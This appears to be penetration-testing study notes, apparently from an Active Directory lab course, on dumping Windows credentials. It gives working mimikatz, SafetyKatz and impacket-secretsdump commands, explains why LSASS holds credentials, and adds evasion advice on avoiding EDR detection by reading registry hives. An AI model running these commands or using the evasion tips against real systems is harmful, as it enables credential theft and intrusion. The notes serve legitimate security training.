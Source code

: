 ### mimikatz
mimikatz can be used to extract credentials, tickets, replay credentials,
play with AD security and more.

Dump credentials
```powershell
mimikatz.exe -Command '"sekurlsa::ekeys"'
```

Using SafetyKatz (Minidump of lsass and PELoader to run mimikatz)
```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

From a Linux attacking machine using `impacket`
```bash
impacket-secretsdump dcorp/student548:'P@ss123!'@172.16.42.10
```



Local Security Authority (`LSA`) is responsible for authentication on a Windows
machine. Local Security Authority Subsystem Service (`LSASS`) is its service.

`LSASS` stores credentials in multiple forms - NT hash, AES, Kerberos tickets and
so on.
- Credentials are stored by `LSASS` when a user:
- Logs on to a local session or RDP
- Uses RunAs
- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool

The `LSASS` process is therefore a very attractive target. It is also the most monitored process on a Windows machine.

**DONT TOUCH LSASS IF YOURE WORRIED ABOUT GETTING DETECTED**

Some of the credentials that can be extracted without touching `LSASS`.
- SAM hive (Registry) - Local credentials
-  `LSA` Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc. **NOT EVERY EDR WATCHES THE SECURITY HIVE**
- PowerShell console history
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.